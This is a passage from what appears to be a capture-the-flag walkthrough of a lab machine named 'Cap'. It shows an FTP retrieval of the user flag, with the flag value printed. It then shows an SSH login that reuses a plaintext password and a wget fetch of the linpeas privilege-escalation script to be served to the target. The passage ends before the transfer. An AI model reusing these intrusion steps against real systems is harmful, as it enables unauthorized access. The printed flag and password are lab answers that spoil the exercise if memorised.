 ## User Flag

```console
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 1001     1001       473164 Sep 13 23:21 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Sep 13 23:24 snap
-r--------    1 1001     1001           33 Sep 13 19:02 user.txt
226 Directory send OK.
```

There's a user.txt, let's download it to our local machine.

```console
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (732.4219 kB/s)
```

We can now exit the ftp server and view the file on our local machine.

```console
kali@kali:~$ cat user.txt
dd129f8df1ccc06c8caba438afa6695c
```

From the `nmap` scan we ran before, there was a ssh service (port 22) running, let's try to use the same set of credentials to ssh onto the machine.

```console
kali@kali:~$ ssh nathan@10.10.10.245 -p 22
nathan@10.10.10.245's password: Buck3tH4TF0RM3!

nathan@cap:~$ 
```

We are now in the system as nathan.

## Root Flag

### Privilege Escalation

First, on our local machine, make a `transfer` directory and then download `linpeas.sh` (used for scanning the system for privilege escalation).

```console
kali@kali:~/transfer$ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

We can now host a http server to transfer the script over to the system (victim machine).
